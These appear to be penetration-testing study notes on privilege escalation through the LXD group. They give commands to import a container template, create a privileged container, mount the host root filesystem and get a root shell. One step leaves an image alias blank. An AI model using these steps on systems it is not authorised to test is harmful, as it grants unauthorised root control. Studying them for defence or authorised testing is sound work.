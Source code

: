 
## Linux Containers

Linux Containers (`LXC`) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. LXC is very popular due to its ease of use and has become an essential part of IT security.
#### Linux Daemon

Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar in some respects but is designed to contain a complete operating system. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group. We can find this out with the following command:
```shell-session
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

From here on, there are now several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.
```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use. The focus on security would complicate the whole initiation, make it more difficult and thus slow it down considerably. If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to import this container as an image.

```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias 
```
![[Pasted image 20250709204342.png]]


After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

Containers

```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

Containers

```shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
```


```
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Let's break it down:
Part	Meaning
lxc config device add	Adds a device (e.g. disk, nic, gpu) to a container
privesc	Name of the container you're modifying (the target container)
host-root	Name you're giving this new device (can be any label)
disk	You're mounting a disk (filesystem path)
source=/	You're mounting the entire root (/) of the host
path=/mnt/root	Inside the container, this will be accessible at /mnt/root
recursive=true	Ensures all subdirectories of / are mounted recursively

